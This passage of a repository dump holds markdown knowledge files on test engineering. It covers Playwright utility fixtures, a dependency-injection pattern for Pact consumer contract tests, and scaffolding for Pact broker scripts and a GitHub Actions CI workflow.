| **Performance**     | Metrics meet SLO/SLA with profiling evidence | Trending toward limits or missing baselines  | SLO/SLA breached or resource leaks detected    |
| **Reliability**     | Error handling, retries, health checks OK    | Partial coverage or missing telemetry        | No recovery path or unresolved crash scenarios |
| **Maintainability** | Clean code, tests, docs shipped together     | Duplication, low coverage, unclear ownership | Absent tests, tangled code, no observability   |

**Default**: If targets or evidence are undefined → **CONCERNS** (force team to clarify before sign-off)

## Integration Points

- **Used in workflows**: `*nfr-assess` (automated NFR validation), `*trace` (gate decision Phase 2), `*test-design` (NFR risk assessment via Utility Tree)
- **Related fragments**: `risk-governance.md` (NFR risk scoring), `probability-impact.md` (NFR impact assessment), `test-quality.md` (maintainability standards), `test-levels-framework.md` (system-level testing for NFRs)
- **Tools by NFR Category**:
  - **Security**: Playwright (E2E auth/authz), OWASP ZAP, Burp Suite, npm audit, Snyk
  - **Performance**: k6 (load/stress/spike/endurance), Lighthouse (Core Web Vitals), Artillery
  - **Reliability**: Playwright (E2E error handling), API tests (retries, health checks), Chaos Engineering tools
  - **Maintainability**: GitHub Actions (coverage, duplication, audit), jscpd, Playwright (observability validation)

_Source: Test Architect course (NFR testing approaches, Utility Tree, Quality Scenarios), ISO/IEC 25010 Software Quality Characteristics, OWASP Top 10, k6 documentation, SRE practices_
```

## File: `src/agents/bmad-tea/resources/knowledge/overview.md`
```markdown
# Playwright Utils Overview

## Principle

Use production-ready, fixture-based utilities from `@seontechnologies/playwright-utils` for common Playwright testing patterns. Build test helpers as pure functions first, then wrap in framework-specific fixtures for composability and reuse. **Works equally well for pure API testing (no browser) and UI testing.**

## Rationale

Writing Playwright utilities from scratch for every project leads to:

- Duplicated code across test suites
- Inconsistent patterns and quality
- Maintenance burden when Playwright APIs change
- Missing advanced features (schema validation, HAR recording, auth persistence)

`@seontechnologies/playwright-utils` provides:

- **Production-tested**: Used in enterprise production environments
- **Functional-first design**: Core logic as pure functions, fixtures for convenience
- **Composable fixtures**: Use `mergeTests` to combine utilities
- **TypeScript support**: Full type safety with generic types
- **Comprehensive coverage**: API requests, auth, network, logging, file handling, burn-in
- **Backend-first mentality**: Most utilities work without a browser - pure API/service testing is a first-class use case

## Installation

```bash
npm install -D @seontechnologies/playwright-utils
```

**Peer Dependencies:**

- `@playwright/test` >= 1.54.1 (required)
- `ajv` >= 8.0.0 (optional - for JSON Schema validation)
- `zod` >= 3.0.0 (optional - for Zod schema validation)

## Available Utilities

### Core Testing Utilities

| Utility                    | Purpose                                                                       | Test Context       |
| -------------------------- | ----------------------------------------------------------------------------- | ------------------ |
| **api-request**            | Typed HTTP client with schema validation, retry, and operation-based overload | **API/Backend**    |
| **recurse**                | Polling for async operations, background jobs                                 | **API/Backend**    |
| **auth-session**           | Token persistence, multi-user, service-to-service                             | **API/Backend/UI** |
| **log**                    | Playwright report-integrated logging                                          | **API/Backend/UI** |
| **file-utils**             | CSV/XLSX/PDF/ZIP reading & validation                                         | **API/Backend/UI** |
| **burn-in**                | Smart test selection with git diff                                            | **CI/CD**          |
| **network-recorder**       | HAR record/playback for offline testing                                       | UI only            |
| **intercept-network-call** | Network spy/stub with auto JSON parsing                                       | UI only            |
| **network-error-monitor**  | Automatic HTTP 4xx/5xx detection                                              | UI only            |

**Note**: 6 of 9 utilities work without a browser. Only 3 are UI-specific (network-recorder, intercept-network-call, network-error-monitor).

## Design Patterns

### Pattern 1: Functional Core, Fixture Shell

**Context**: All utilities follow the same architectural pattern - pure function as core, fixture as wrapper.

**Implementation**:

```typescript
// Direct import (pass Playwright context explicitly)
import { apiRequest } from '@seontechnologies/playwright-utils';

test('direct usage', async ({ request }) => {
  const { status, body } = await apiRequest({
    request, // Must pass request context
    method: 'GET',
    path: '/api/users',
  });
});

// Fixture import (context injected automatically)
import { test } from '@seontechnologies/playwright-utils/fixtures';

test('fixture usage', async ({ apiRequest }) => {
  const { status, body } = await apiRequest({
    // No need to pass request context
    method: 'GET',
    path: '/api/users',
  });
});
```

**Key Points**:

- Pure functions testable without Playwright running
- Fixtures inject framework dependencies automatically
- Choose direct import (more control) or fixture (convenience)

### Pattern 2: Subpath Imports for Tree-Shaking

**Context**: Import only what you need to keep bundle sizes small.

**Implementation**:

```typescript
// Import specific utility
import { apiRequest } from '@seontechnologies/playwright-utils/api-request';

// Import specific fixture
import { test } from '@seontechnologies/playwright-utils/api-request/fixtures';

// Import everything (use sparingly)
import { apiRequest, recurse, log } from '@seontechnologies/playwright-utils';
```

**Key Points**:

- Subpath imports enable tree-shaking
- Keep bundle sizes minimal
- Import from specific paths for production builds

### Pattern 3: Fixture Composition with mergeTests

**Context**: Combine multiple playwright-utils fixtures with your own custom fixtures.

**Implementation**:

```typescript
// playwright/support/merged-fixtures.ts
import { mergeTests } from '@playwright/test';
import { test as apiRequestFixture } from '@seontechnologies/playwright-utils/api-request/fixtures';
import { test as authFixture } from '@seontechnologies/playwright-utils/auth-session/fixtures';
import { test as recurseFixture } from '@seontechnologies/playwright-utils/recurse/fixtures';
import { test as logFixture } from '@seontechnologies/playwright-utils/log/fixtures';

// Merge all fixtures into one test object
export const test = mergeTests(apiRequestFixture, authFixture, recurseFixture, logFixture);

export { expect } from '@playwright/test';
```

```typescript
// In your tests
import { test, expect } from '../support/merged-fixtures';

test('all utilities available', async ({ apiRequest, authToken, recurse, log }) => {
  await log.step('Making authenticated API request');

  const { body } = await apiRequest({
    method: 'GET',
    path: '/api/protected',
    headers: { Authorization: `Bearer ${authToken}` },
  });

  await recurse(
    () => apiRequest({ method: 'GET', path: `/status/${body.id}` }),
    (res) => res.body.ready === true,
  );
});
```

**Key Points**:

- `mergeTests` combines multiple fixtures without conflicts
- Create one merged-fixtures.ts file per project
- Import test object from your merged fixtures in all tests
- All utilities available in single test signature

## Integration with Existing Tests

### Gradual Adoption Strategy

**1. Start with logging** (zero breaking changes):

```typescript
import { log } from '@seontechnologies/playwright-utils';

test('existing test', async ({ page }) => {
  await log.step('Navigate to page'); // Just add logging
  await page.goto('/dashboard');
  // Rest of test unchanged
});
```

**2. Add API utilities** (for API tests):

```typescript
import { test } from '@seontechnologies/playwright-utils/api-request/fixtures';

test('API test', async ({ apiRequest }) => {
  const { status, body } = await apiRequest({
    method: 'GET',
    path: '/api/users',
  });

  expect(status).toBe(200);
});
```

**3. Expand to network utilities** (for UI tests):

```typescript
import { test } from '@seontechnologies/playwright-utils/fixtures';

test('UI with network control', async ({ page, interceptNetworkCall }) => {
  const usersCall = interceptNetworkCall({
    url: '**/api/users',
  });

  await page.goto('/dashboard');
  const { responseJson } = await usersCall;

  expect(responseJson).toHaveLength(10);
});
```

**4. Full integration** (merged fixtures):

Create merged-fixtures.ts and use across all tests.

## Related Fragments

- `api-request.md` - HTTP client with schema validation
- `network-recorder.md` - HAR-based offline testing
- `auth-session.md` - Token management
- `intercept-network-call.md` - Network interception
- `recurse.md` - Polling patterns
- `log.md` - Logging utility
- `file-utils.md` - File operations
- `fixtures-composition.md` - Advanced mergeTests patterns

## Anti-Patterns

**❌ Don't mix direct and fixture imports in same test:**

```typescript
import { apiRequest } from '@seontechnologies/playwright-utils';
import { test } from '@seontechnologies/playwright-utils/auth-session/fixtures';

test('bad', async ({ request, authToken }) => {
  // Confusing - mixing direct (needs request) and fixture (has authToken)
  await apiRequest({ request, method: 'GET', path: '/api/users' });
});
```

**✅ Use consistent import style:**

```typescript
import { test } from '../support/merged-fixtures';

test('good', async ({ apiRequest, authToken }) => {
  // Clean - all from fixtures
  await apiRequest({ method: 'GET', path: '/api/users' });
});
```

**❌ Don't import everything when you need one utility:**

```typescript
import * as utils from '@seontechnologies/playwright-utils'; // Large bundle
```

**✅ Use subpath imports:**

```typescript
import { apiRequest } from '@seontechnologies/playwright-utils/api-request'; // Small bundle
```

## Reference Implementation

The official `@seontechnologies/playwright-utils` repository provides working examples of all patterns described in these fragments.

**Repository:** <https://github.com/seontechnologies/playwright-utils>

**Key resources:**

- **Test examples:** `playwright/tests` - All utilities in action
- **Framework setup:** `playwright.config.ts`, `playwright/support/merged-fixtures.ts`
- **CI patterns:** `.github/workflows/` - GitHub Actions with sharding, parallelization

**Quick start:**

```bash
git clone https://github.com/seontechnologies/playwright-utils.git
cd playwright-utils
nvm use
npm install
npm run test:pw-ui  # Explore tests with Playwright UI
npm run test:pw
```

All patterns in TEA fragments are production-tested in this repository.
```

## File: `src/agents/bmad-tea/resources/knowledge/pact-consumer-di.md`
```markdown
# Pact Consumer DI Pattern

## Principle

Inject the Pact mock server URL into consumer code via an optional `baseUrl` field on the API context type instead of using raw `fetch()` inside `executeTest()`. This ensures contract tests exercise the real consumer HTTP client — including retry logic, header assembly, timeout configuration, error handling, and metrics — rather than testing Pact itself.

The base URL is typically a module-level constant evaluated at import time (`export const API_BASE_URL = env.API_BASE_URL`), but `mockServer.url` is only available at runtime inside `executeTest()`. Dependency injection solves this timing mismatch cleanly: add one optional field to the context type, use nullish coalescing in the HTTP client factory, and inject the mock server URL in tests.

## Rationale

### The Problem

Raw `fetch()` in `executeTest()` only proves that Pact returns what you told it to return. The real consumer HTTP client has retry logic, header assembly, timeout configuration, error handling, and metrics collection — none of which are exercised when you hand-craft fetch calls. Contracts written with raw fetch are hand-maintained guesses about what the consumer actually sends.

### Why NOT vi.mock

`vi.mock` with ESM (`module: Node16`) has hoisting quirks that make it unreliable for overriding module-level constants. A getter-based mock is non-obvious and fragile — it works until the next bundler or TypeScript config change breaks it. DI is a standard pattern that requires zero mock magic and works across all module systems.

### Comparison

| Approach     | Production code change | Mock complexity            | Exercises real client | Contract accuracy           |
| ------------ | ---------------------- | -------------------------- | --------------------- | --------------------------- |
| Raw fetch    | None                   | None                       | No                    | Low — hand-crafted requests |
| vi.mock      | None                   | High — ESM hoisting issues | Yes                   | Medium — fragile setup      |
| DI (baseUrl) | 2 lines                | None                       | Yes                   | High — real requests        |

## Pattern Examples

### Example 1: Production Code Change (2 Lines Total)

**Context**: Add an optional `baseUrl` field to the API context type and use nullish coalescing in the HTTP client factory. This is the entire production code change required.

**Implementation**:

```typescript
// src/types.ts
export type ApiContext = {
  jwtToken: string;
  customerId: number;
  adminUserId?: number;
  correlationId?: string;
  baseUrl?: string; // Override for testing (Pact mock server)
};
```

```typescript
// src/http-client.ts
import axios from 'axios';
import type { AxiosInstance } from 'axios';
import type { ApiContext } from './types.js';
import { API_BASE_URL, REQUEST_TIMEOUT } from './constants.js';

function createAxiosInstanceWithContext(context: ApiContext): AxiosInstance {
  return axios.create({
    baseURL: context.baseUrl ?? API_BASE_URL,
    timeout: REQUEST_TIMEOUT,
    headers: {
      'Content-Type': 'application/json',
      Accept: 'application/json',
      Authorization: `Bearer ${context.jwtToken}`,
      ...(context.correlationId && { 'X-Request-Id': context.correlationId }),
    },
  });
}
```

**Key Points**:

- `baseUrl` is optional — existing production code never sets it
- `??` (nullish coalescing) falls back to `API_BASE_URL` when `baseUrl` is undefined
- Zero production behavior change — only test code provides the override
- Two lines added total: one type field, one `??` fallback

### Example 2: Shared Test Context Helper

**Context**: Create a reusable helper that builds an `ApiContext` with the mock server URL injected. One helper shared across all consumer test files.

**Implementation**:

```typescript
// pact/support/test-context.ts
import type { ApiContext } from '../../src/types.js';

export function createTestContext(mockServerUrl: string): ApiContext {
  return {
    jwtToken: 'test-jwt-token',
    customerId: 1,
    baseUrl: `${mockServerUrl}/api/v2`,
  };
}
```

**Key Points**:

- `baseUrl` should include the API version prefix when consumer methods use versionless relative paths (e.g., `/transactions`) or endpoint paths are defined without the version segment
- Single helper shared across all consumer test files — no repetition
- Returns a plain object — follows pure-function-first pattern from `fixture-architecture.md`
- Add fields as needed (e.g., `adminUserId`, `correlationId`) for specific test scenarios

### Example 3: Before/After for a Simple Test

**Context**: Migrating an existing raw-fetch test to call real consumer code.

**Before** (raw fetch — tests Pact mock, not consumer code):

```typescript
.executeTest(async (mockServer: V3MockServer) => {
  const response = await fetch(
    `${mockServer.url}/api/v2/common/fields?ruleType=!&ignoreFeatureFlags=true`,
    {
      headers: {
        Authorization: "Bearer test-jwt-token",
        "Content-Type": "application/json",
      },
    },
  );
  expect(response.status).toBe(200);
  const body = (await response.json()) as Record<string, unknown>[];
  expect(body).toEqual(expect.arrayContaining([...]));
});
```

**After** (real consumer code):

```typescript
.executeTest(async (mockServer: V3MockServer) => {
  const api = createApiClient(createTestContext(mockServer.url));
  const result = await api.getFilterFields();
  expect(result).toEqual(
    expect.arrayContaining([
      expect.objectContaining({
        id: expect.any(String),
        readable: expect.any(String),
        filterType: expect.any(String),
      }),
    ]),
  );
});
```

**Key Points**:

- No HTTP status assertion — the consumer method throws on non-2xx, so reaching the expect proves success
- Assertions validate the return value shape, not transport details
- The real client's headers, timeout, and retry logic are exercised transparently
- Less code, more coverage — the test is shorter and tests more

### Example 4: Contract Accuracy Fix

**Context**: Using real consumer code revealed a contract mismatch that raw fetch silently hid. This is the strongest argument for the pattern.

The real `getCustomerActivityCount(transactionId, dateRange)` sends:

```json
{ "transactionId": "txn-123", "filters": { "dateRange": "last_30_days" } }
```

The old test with raw fetch sent:

```json
{ "transactionId": "txn-123", "filters": {} }
```

This was wrong but passed because raw fetch let you hand-craft any body. When switched to real code, Pact immediately returned a 500 Request-Mismatch because the body shape did not match the interaction.

**Implementation** — fix the contract to match reality:

```typescript
// WRONG — old contract with empty filters
.withRequest({
  method: "POST",
  path: "/api/v2/customers/activity/count",
  body: { transactionId: "txn-123", filters: {} },
})

// CORRECT — matches what real code actually sends
.withRequest({
  method: "POST",
  path: "/api/v2/customers/activity/count",
  body: {
    transactionId: "txn-123",
    filters: { dateRange: "last_30_days" },
  },
})
```

**Key Points**:

- Contracts become discoverable truth, not hand-maintained guesses
- Raw fetch silently hid the mismatch — the mock accepted whatever you sent
- The 500 Request-Mismatch from Pact was immediate and clear
- Fix the contract when real code reveals a mismatch — that mismatch is a bug the old tests were hiding

### Example 5: Parallel-Endpoint Methods

**Context**: Facade methods that call multiple endpoints via `Promise.all` (e.g., `getTransactionStats` calls count + score + amount in parallel). Keep separate `it` blocks per endpoint and use the lower-level request function directly.

**Implementation**:

```typescript
import { describe, it, expect } from 'vitest';
import type { V3MockServer } from '@pact-foundation/pact';
import { makeApiRequestWithContext } from '../../src/http-client.js';
import type { CountStatistics } from '../../src/types.js';
import { createTestContext } from '../support/test-context.js';

describe('Transaction Statistics - Count Endpoint', () => {
  // ... provider setup ...

  it('should return count statistics', async () => {
    const statsRequest = { transactionId: 'txn-123', period: 'daily' };

    await provider
      .given('transaction statistics exist')
      .uponReceiving('a request for transaction count statistics')
      .withRequest({
        method: 'POST',
        path: '/api/v2/transactions/statistics/count',
        body: statsRequest,
      })
      .willRespondWith({
        status: 200,
        body: { count: 42, period: 'daily' },
      })
      .executeTest(async (mockServer: V3MockServer) => {
        const context = createTestContext(mockServer.url);
        const result = await makeApiRequestWithContext<CountStatistics>(context, '/transactions/statistics/count', 'POST', statsRequest);
        expect(result.count).toBeDefined();
      });
  });
});
```

**Key Points**:

- Each Pact interaction verifies one endpoint contract
- The `Promise.all` orchestration is internal logic, not a contract concern
- Use `makeApiRequestWithContext` (lower-level) when the facade method bundles multiple calls
- Separate `it` blocks keep contracts independent and debuggable

## Anti-Patterns

### Wrong: Raw fetch — tests Pact mock, not consumer code

```typescript
// BAD: Raw fetch duplicates headers and URL assembly
const response = await fetch(`${mockServer.url}/api/v2/transactions`, {
  method: 'GET',
  headers: {
    Authorization: 'Bearer test-jwt-token',
    'Content-Type': 'application/json',
  },
});
expect(response.status).toBe(200);
```

### Wrong: vi.mock with getter — fragile ESM hoisting

```typescript
// BAD: ESM hoisting makes this non-obvious and brittle
vi.mock('../../src/constants.js', async (importOriginal) => ({
  ...(await importOriginal()),
  get API_BASE_URL() {
    return mockBaseUrl;
  },
}));
```

### Wrong: Asserting HTTP status instead of return value

```typescript
// BAD: Status 200 tells you nothing about the consumer's parsing logic
expect(response.status).toBe(200);
```

### Right: Call real consumer code, assert return values

```typescript
// GOOD: Exercises real client, validates parsed return value
const api = createApiClient(createTestContext(mockServer.url));
const result = await api.searchTransactions(request);
expect(result.transactions).toBeDefined();
```

## Rules

1. `baseUrl` field MUST be optional with fallback via `??` (nullish coalescing)
2. Zero production behavior change — existing code never sets `baseUrl`
3. Assertions validate return values from consumer methods, not HTTP status codes
4. For parallel-endpoint facade methods, keep separate `it` blocks per endpoint
5. Include the API version prefix in `baseUrl` when endpoint paths/consumer methods are versionless (for example, methods call `/transactions` instead of `/api/v2/transactions`)
6. Create a single shared test context helper — no repetition across test files
7. If real code reveals a contract mismatch, fix the contract — that mismatch is a bug the old tests were hiding

## Integration Points

- `contract-testing.md` — Foundational Pact.js patterns and provider verification
- `pactjs-utils-consumer-helpers.md` — `createProviderState()`, `setJsonContent()`, and `setJsonBody()` helpers used alongside this pattern
- `pactjs-utils-provider-verifier.md` — Provider-side verification configuration
- `fixture-architecture.md` — Composable fixture patterns (`createTestContext` follows pure-function-first)
- `api-testing-foundations.md` — API testing best practices

Used in workflows:

- `automate` — Consumer contract test generation
- `test-review` — Contract test quality checks

## Source

Pattern derived from my-consumer-app Pact consumer test refactor (March 2026). Implements dependency injection for testability as described in Pact.js best practices.
```

## File: `src/agents/bmad-tea/resources/knowledge/pact-consumer-framework-setup.md`
```markdown
# Pact Consumer CDC — Framework Setup

## Principle

When scaffolding a Pact.js consumer contract testing framework, align every artifact — directory layout, vitest config, package.json scripts, shell scripts, CI workflow, and test files — with the canonical `@seontechnologies/pactjs-utils` conventions. Consistency across repositories eliminates onboarding friction and ensures CI pipelines are copy-paste portable.

## Rationale

The TEA framework workflow generates scaffolding for consumer-driven contract (CDC) testing. Without opinionated, battle-tested conventions, each project invents its own structure — different script names, different env var patterns, different CI step ordering — making cross-repo maintenance expensive. This fragment codifies the production-proven patterns from the pactjs-utils reference implementation so that every new project starts correctly.

## Pattern Examples

### Example 1: Directory Structure & File Naming

**Context**: Consumer contract test project layout using pactjs-utils conventions.

**Implementation**:

```
tests/contract/
├── consumer/
│   ├── get-filter-fields.pacttest.ts    # Consumer test (one per endpoint group)
│   ├── filter-transactions.pacttest.ts
│   └── get-transaction-stats.pacttest.ts
└── support/
    ├── pact-config.ts                   # PactV4 factory (consumer/provider names, output dir)
    ├── provider-states.ts               # Provider state factory functions
    └── consumer-helpers.ts              # Local shim (until pactjs-utils is published)

scripts/
├── env-setup.sh                         # Shared env loader (sourced by all broker scripts)
├── publish-pact.sh                      # Publish pact files to broker
├── can-i-deploy.sh                      # Deployment safety check
└── record-deployment.sh                 # Record deployment after merge

.github/
├── actions/
│   └── detect-breaking-change/
│       └── action.yml                   # PR checkbox-driven breaking change detection
└── workflows/
    └── contract-test-consumer.yml       # Consumer CDC CI workflow
```

**Key Points**:

- Consumer tests use `.pacttest.ts` extension (not `.pact.spec.ts` or `.contract.ts`)
- Support files live in `tests/contract/support/`, not mixed with consumer tests
- Shell scripts live in `scripts/` at project root, not nested inside test directories
- CI workflow named `contract-test-consumer.yml` (not `pact-consumer.yml` or other variants)

---

### Example 2: Vitest Configuration for Pact

**Context**: Minimal vitest config dedicated to contract tests — do NOT copy settings from the project's main `vitest.config.ts`.

**Implementation**:

```typescript
// vitest.config.pact.ts
import { defineConfig } from 'vitest/config';

export default defineConfig({
  test: {
    environment: 'node',
    include: ['tests/contract/**/*.pacttest.ts'],
    testTimeout: 30000,
  },
});
```

**Key Points**:

- Do NOT add `pool`, `poolOptions`, `setupFiles`, `coverage`, or other settings from the unit test config
- Keep it minimal — Pact tests run in Node environment with extended timeout
- 30 second timeout accommodates Pact mock server startup and interaction verification
- Use a dedicated config file (`vitest.config.pact.ts`), not the main vitest config

---

### Example 3: Package.json Script Naming

**Context**: Colon-separated naming matching pactjs-utils exactly. Scripts source `env-setup.sh` inline.

**Implementation**:

```json
{
  "scripts": {
    "test:pact:consumer": "vitest run --config vitest.config.pact.ts",
    "publish:pact": ". ./scripts/env-setup.sh && ./scripts/publish-pact.sh",
    "can:i:deploy:consumer": ". ./scripts/env-setup.sh && PACTICIPANT=<service-name> ./scripts/can-i-deploy.sh",
    "record:consumer:deployment": ". ./scripts/env-setup.sh && PACTICIPANT=<service-name> ./scripts/record-deployment.sh"
  }
}
```

Replace `<service-name>` with the consumer's pacticipant name (e.g., `my-frontend-app`).

**Key Points**:

- Use colon-separated naming: `test:pact:consumer`, NOT `test:contract` or `test:contract:consumer`
- Broker scripts source `env-setup.sh` inline in package.json (`. ./scripts/env-setup.sh && ...`)
- `PACTICIPANT` is set per-script invocation, not globally
- Do NOT use `npx pact-broker` — use `pact-broker` directly (installed as a dependency)

---

### Example 4: Shell Scripts

**Context**: Reusable bash scripts aligned with pactjs-utils conventions.

#### `scripts/env-setup.sh` — Shared Environment Loader

```bash
#!/bin/bash
# -e: exit on error  -u: error on undefined vars (catches typos/missing env vars in CI)
set -eu

if [ -f .env ]; then
  set -a
  source .env
  set +a
fi

export GITHUB_SHA="${GITHUB_SHA:-$(git rev-parse --short HEAD)}"
export GITHUB_BRANCH="${GITHUB_BRANCH:-$(git rev-parse --abbrev-ref HEAD)}"
```

#### `scripts/publish-pact.sh` — Publish Pacts to Broker

```bash
#!/bin/bash
# Publish generated pact files to PactFlow/Pact Broker
#
# Requires: PACT_BROKER_BASE_URL, PACT_BROKER_TOKEN, GITHUB_SHA, GITHUB_BRANCH
# -e: exit on error  -u: error on undefined vars  -o pipefail: fail if any pipe segment fails
set -euo pipefail

. ./scripts/env-setup.sh

PACT_DIR="./pacts"

pact-broker publish "$PACT_DIR" \
    --consumer-app-version="$GITHUB_SHA" \
    --branch="$GITHUB_BRANCH" \
    --broker-base-url="$PACT_BROKER_BASE_URL" \
    --broker-token="$PACT_BROKER_TOKEN"
```

#### `scripts/can-i-deploy.sh` — Deployment Safety Check

```bash
#!/bin/bash
# Check if a pacticipant version can be safely deployed
#
# Requires: PACTICIPANT (set by caller), PACT_BROKER_BASE_URL, PACT_BROKER_TOKEN, GITHUB_SHA
# -e: exit on error  -u: error on undefined vars  -o pipefail: fail if any pipe segment fails
set -euo pipefail

. ./scripts/env-setup.sh

PACTICIPANT="${PACTICIPANT:?PACTICIPANT env var is required}"
ENVIRONMENT="${ENVIRONMENT:-dev}"

pact-broker can-i-deploy \
    --pacticipant "$PACTICIPANT" \
    --version="$GITHUB_SHA" \
    --to-environment "$ENVIRONMENT" \
    --retry-while-unknown=10 \
    --retry-interval=30
```

#### `scripts/record-deployment.sh` — Record Deployment

```bash
#!/bin/bash
# Record a deployment to an environment in Pact Broker
# Only records on main/master branch (skips feature branches)
#
# Requires: PACTICIPANT, PACT_BROKER_BASE_URL, PACT_BROKER_TOKEN, GITHUB_SHA, GITHUB_BRANCH
# -e: exit on error  -u: error on undefined vars  -o pipefail: fail if any pipe segment fails
set -euo pipefail

. ./scripts/env-setup.sh

PACTICIPANT="${PACTICIPANT:?PACTICIPANT env var is required}"

if [ "$GITHUB_BRANCH" = "main" ] || [ "$GITHUB_BRANCH" = "master" ]; then
  pact-broker record-deployment \
      --pacticipant "$PACTICIPANT" \
      --version "$GITHUB_SHA" \
      --environment "${npm_config_env:-dev}"
else
  echo "Skipping record-deployment: not on main branch (current: $GITHUB_BRANCH)"
fi
```

**Key Points**:

- `env-setup.sh` uses `set -eu` (no pipefail — it only sources `.env`, no pipes); broker scripts use `set -euo pipefail`
- Use `pact-broker` directly, NOT `npx pact-broker`
- Use `PACTICIPANT` env var (required via `${PACTICIPANT:?...}`), not hardcoded service names
- `can-i-deploy` includes `--retry-while-unknown=10 --retry-interval=30` (waits for provider verification)
- `record-deployment` has branch guard (only records on main/master)
- Do NOT invent custom env vars like `PACT_CONSUMER_VERSION` or `PACT_BREAKING_CHANGE` in scripts — those are handled by `env-setup.sh` and the CI detect-breaking-change action respectively

---

### Example 5: CI Workflow (`contract-test-consumer.yml`)

**Context**: GitHub Actions workflow for consumer CDC, matching pactjs-utils structure exactly.

**Implementation**:

```yaml
name: Contract Test - Consumer
on:
  pull_request:
    types: [opened, synchronize, reopened, edited]
  push:
    branches: [main]

env:
  PACT_BROKER_BASE_URL: ${{ secrets.PACT_BROKER_BASE_URL }}
  PACT_BROKER_TOKEN: ${{ secrets.PACT_BROKER_TOKEN }}
  GITHUB_SHA: ${{ github.sha }}
  GITHUB_BRANCH: ${{ github.head_ref || github.ref_name }}

concurrency:
  group: ${{ github.workflow }}-${{ github.head_ref || github.ref }}
  cancel-in-progress: true

jobs:
  consumer-contract-test:
    if: github.actor != 'dependabot[bot]'
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v6

      - uses: actions/setup-node@v6
        with:
          node-version-file: '.nvmrc'
          cache: 'npm'

      - name: Detect Pact breaking change
        uses: ./.github/actions/detect-breaking-change

      - name: Install dependencies
        run: npm ci

      # (1) Generate pact files
      - name: Run consumer contract tests
        run: npm run test:pact:consumer

      # (2) Publish pacts to broker
      - name: Publish pacts to PactFlow
        run: npm run publish:pact

      # After publish, PactFlow fires a webhook that triggers
      # the provider's contract-test-provider.yml workflow.
      # can-i-deploy retries while waiting for provider verification.

      # (4) Check deployment safety (main only — on PRs, local verification is the gate)
      - name: Can I deploy consumer? (main only)
        if: github.ref == 'refs/heads/main' && env.PACT_BREAKING_CHANGE != 'true'
        run: npm run can:i:deploy:consumer

      # (5) Record deployment (main only)
      - name: Record consumer deployment (main only)
        if: github.ref == 'refs/heads/main'
        run: npm run record:consumer:deployment --env=dev
```

**Key Points**:

- **Workflow-level `env` block** for broker secrets and git vars — not per-step
- **`detect-breaking-change` step** runs before install to set `PACT_BREAKING_CHANGE` env var
- **Step numbering skips (3)** — step 3 is the webhook-triggered provider verification (happens externally)
- **can-i-deploy condition**: `github.ref == 'refs/heads/main' && env.PACT_BREAKING_CHANGE != 'true'`
- **Comment on (4)**: "on PRs, local verification is the gate"
- **No upload-artifact step** — the broker is the source of truth for pact files
- **`dependabot[bot]` skip** on the job (contract tests don't run for dependency updates)
- **PR types include `edited`** — needed for breaking change checkbox detection in PR body
- **`GITHUB_BRANCH`** uses `${{ github.head_ref || github.ref_name }}` — `head_ref` for PRs, `ref_name` for pushes

---

### Example 6: Detect Breaking Change Composite Action

**Context**: GitHub composite action that reads a `[x] Pact breaking change` checkbox from the PR body.

**Implementation**:

Create `.github/actions/detect-breaking-change/action.yml`:

```yaml
name: 'Detect Pact Breaking Change'
description: 'Reads the PR template checkbox to determine if this change is a Pact breaking change. Sets PACT_BREAKING_CHANGE env var.'

outputs:
  is_breaking_change:
    description: 'Whether the change is a breaking change (true/false)'
    value: ${{ steps.result.outputs.is_breaking_change }}

runs:
  using: 'composite'
  steps:
    # PR event path: read checkbox directly from current PR body.
    - name: Set PACT_BREAKING_CHANGE from PR description (PR only)
      if: github.event_name == 'pull_request'
      uses: actions/github-script@v7
      with:
        script: |
          const prBody = context.payload.pull_request.body || '';
          const breakingChangePattern = /\[\s*[xX]\s*\]\s*Pact breaking change/i;
          const isBreakingChange = breakingChangePattern.test(prBody);
          core.exportVariable('PACT_BREAKING_CHANGE', isBreakingChange ? 'true' : 'false');
          console.log(`PACT_BREAKING_CHANGE=${isBreakingChange ? 'true' : 'false'} (from PR description checkbox).`);

    # Push-to-main path: resolve the merged PR and read the same checkbox.
    - name: Set PACT_BREAKING_CHANGE from merged PR (push to main)
      if: github.event_name == 'push' && github.ref == 'refs/heads/main'
      uses: actions/github-script@v7
      with:
        script: |
          const { data: prs } = await github.rest.repos.listPullRequestsAssociatedWithCommit({
            owner: context.repo.owner,
            repo: context.repo.repo,
            commit_sha: context.sha,
          });
          const merged = prs.find(pr => pr.merged_at);
          const mergedBody = merged?.body || '';
          const breakingChangePattern = /\[\s*[xX]\s*\]\s*Pact breaking change/i;
          const isBreakingChange = breakingChangePattern.test(mergedBody);
          core.exportVariable('PACT_BREAKING_CHANGE', isBreakingChange ? 'true' : 'false');
          console.log(`PACT_BREAKING_CHANGE=${isBreakingChange ? 'true' : 'false'} (from merged PR lookup).`);

    - name: Export result
      id: result
      shell: bash
      run: echo "is_breaking_change=${PACT_BREAKING_CHANGE:-false}" >> "$GITHUB_OUTPUT"
```

**Key Points**:

- Two separate conditional steps (better CI log readability than single if/else)
- PR path: reads checkbox directly from PR body
- Push-to-main path: resolves merged PR via GitHub API, reads same checkbox
- Exports `PACT_BREAKING_CHANGE` env var for downstream steps
- `outputs.is_breaking_change` available for consuming workflows
- Uses a case-insensitive checkbox regex (`/\[\s*[xX]\s*\]\s*Pact breaking change/i`) to detect checked states robustly

---

### Example 7: Consumer Test Using PactV4 Builder

**Context**: Consumer pact test using PactV4 `addInteraction()` builder pattern. The test MUST call **real consumer code** (your actual API client/service functions) against the mock server — not raw `fetch()`. Using `fetch()` directly defeats the purpose of CDC testing because it doesn't verify your actual consumer code works with the contract.

**Implementation**:

The consumer code must expose a way to inject the base URL (e.g., `setApiUrl()`, constructor parameter, or environment variable). This is a prerequisite for contract testing.

```typescript
// src/api/movie-client.ts — The REAL consumer code (already exists in your project)
import axios from 'axios';

const axiosInstance = axios.create({
  baseURL: process.env.API_URL || 'http://localhost:3001',
});

// Expose a way to override the base URL for Pact testing
export const setApiUrl = (url: string) => {
  axiosInstance.defaults.baseURL = url;
};

export const getMovies = async () => {
  const res = await axiosInstance.get('/movies');
  return res.data;
};

export const getMovieById = async (id: number) => {
  const res = await axiosInstance.get(`/movies/${id}`);
  return res.data;
};
```

```typescript
// tests/contract/consumer/get-movies.pacttest.ts
import { MatchersV3 } from '@pact-foundation/pact';
import type { V3MockServer } from '@pact-foundation/pact';
import { createProviderState, setJsonBody, setJsonContent } from '../support/consumer-helpers';
import { movieExists } from '../support/provider-states';
import { createPact } from '../support/pact-config';
// Import REAL consumer code — this is what we're actually testing
